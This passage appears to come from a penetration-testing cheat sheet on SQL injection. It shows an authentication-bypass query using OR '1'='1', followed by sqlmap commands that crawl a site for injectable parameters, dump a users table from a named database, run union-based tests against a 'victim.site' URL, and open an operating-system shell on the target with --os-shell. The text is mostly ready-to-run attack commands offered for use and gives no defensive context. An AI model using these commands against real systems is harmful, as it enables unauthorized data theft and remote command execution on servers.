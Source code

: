 If you know the username you could of course use that and then only inject on the password parameter.

```text
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```

### SQLmap <a id="sqlmap"></a>

Sqlmap is a great tool to perform sql-injections.  
Here is the manual.  
[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

#### Using sqlmap with login-page <a id="using-sqlmap-with-login-page"></a>

So you need to authenticate before you can access the vulnerable paramter.

You just cature the request using burp suite, and save the requiest in a file. Then your run

```text
sqlmap -r request.txt --level 4 --risk 3
```

Since the cookie is saved in the reuqest sqlmap can do it.

#### Crawl a page to find sql-injections <a id="crawl-a-page-to-find-sql-injections"></a>

```text
sqlmap -u http://example.com --crawl=1
```

#### Dumping a database or table <a id="dumping-a-database-or-table"></a>

Here we are dumping the database Webapp and the table Users.

```text
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Quick Usage <a id="quick-usage"></a>

Here we are testing for Union query based based attackes on the id parameter

```text
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```

#### Quick Shell <a id="quick-shell"></a>

Here were are testing the email \(username\) parameter for injection to use the built in shell. Based on request file obtained from burp.

```text
sqlmap -r req.txt -p email --os-shell
```
